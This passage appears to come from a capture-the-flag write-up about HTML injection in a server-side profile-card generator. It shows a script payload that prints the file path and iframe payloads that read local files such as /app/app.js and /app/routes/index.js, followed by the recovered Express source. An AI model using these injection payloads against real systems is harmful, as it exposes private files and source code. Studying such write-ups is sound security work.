 ```js
<script>document.body.append(location.href)</script>
```

Returns `file:///app/tmp/3c433348-60e3-4a48-b989-2a168954147f.html`

Since we confirmed the file location as `/app`, we can enumerate common files, either manually or by brute-forcing a [wordlist](https://github.com/danielmiessler/SecLists).

#### app/app.js

```js
<iframe src="/app/app.js" style="width: 999px; height: 999px"></iframe>
```

We'll quickly recover the source code for `app.js`.

```js
const express = require("express");
const { engine } = require("express-handlebars");
const cookieParser = require("cookie-parser");
const { auth } = require("./middleware/auth");
const app = express();
app.engine("handlebars", engine());
app.set("view engine", "handlebars");
app.set("views", "./views");
app.use(express.json());
app.use(cookieParser());
app.use(auth);
app.use("/static", express.static("static"));
app.use("/", require("./routes/index"));
app.use("/api", require("./routes/api"));
app.listen(3000, () => {
    console.log("Listening on port 3000...");
});
```

This introduces some new paths to investigate (`/routes/index` and `/routes/api`) so we repeat the previous technique.

#### app/routes/index.js

```js
<iframe src="/app/routes/index.js" style="width: 999px; height: 999px"></iframe>
```

`index.js` confirms our target is the `/admin` endpoint. Currently, when we try to access the page we get `Only admins can view this page`.

```js
const express = require("express");
const { requireAuth } = require("../middleware/auth");
const { isAdmin } = require("../middleware/check_admin");
const { getRandomRecommendation } = require("../utils/recommendedSongs");
const { generatePDF } = require("../utils/generateProfileCard");
const router = express.Router();
router.get("/", (req, res) => {
    const spotifyTrackCode = getRandomRecommendation();
    res.render("home", { userData: req.userData, spotifyTrackCode });
});
router.get("/register", (req, res) => {
    res.render("register", { userData: req.userData });
});
router.get("/login", (req, res) => {
    if (req.loginHash) {
        res.redirect("/profile");
    }
    res.render("login", { userData: req.userData });
});
```